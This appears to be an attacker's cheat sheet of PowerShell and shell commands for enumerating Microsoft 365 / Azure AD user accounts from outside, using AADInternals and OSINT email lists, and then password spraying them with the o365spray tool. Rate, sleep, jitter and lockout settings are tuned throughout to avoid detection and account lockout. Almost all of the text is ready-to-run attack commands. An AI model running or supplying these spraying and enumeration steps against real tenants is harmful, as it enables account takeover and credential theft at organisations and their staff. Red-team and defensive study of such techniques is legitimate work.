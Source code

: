 ### Invoke user enumeration as an outsider user or using a text file
```powershell
$user = 'adelev@shrine.cloud'
```

### Obtain list of users from OSINT on LinkedIn, dehashed, Hunter, etc
```powershell
cat emails.txt
```

### User or List of Users, checks against a quiet API endpoint
```powershell
Invoke-AADIntUserEnumerationAsOutsider -UserName $user
Get-Content .\emails.txt | Invoke-AADIntUserEnumerationAsOutsider > validemailsAAD.txt
```

### Initial Spray Against users we've validated, slow slow SLOWWWW
### Try Vs TrevorSpray, TeamFiltration
### o365 better to control speed, TrevorSpray has natural proxy support

### o365 Spray from Shrine ( need get work with fireprox )
```powershell
git clone https://github.com/0xZDH/o365spray.git
cd o365spray
pip install -r requirements.txt
sudo chmod +x o365spray.py
```


### Check if O365
```powershell
o365spray.py --validate --domain $tenant
```

### Perform username enumeration against a given domain:
```powershell
o365spray.py --enum -U emails.txt --domain $tenant
```

### Perform password spraying against a given domain:
```powershell
o365spray --spray -U emails.txt -P $passwords --count 2 --lockout 5 --domain $tenant
```


### Slower, sleepier, jittery spray
```powershell
./o365spray.py --spray -U emails.txt -P knownpasswords.txt --count 1 --lockout 5 --domain $tenant --rate 1 --sleep -1 --jitter 20 

../o365spray/o365spray.py --spray -U emails.txt -P knownpasswords.txt --count 3 --lockout 5 --domain $tenant --rate 1 --sleep -1 --jitter 20
```
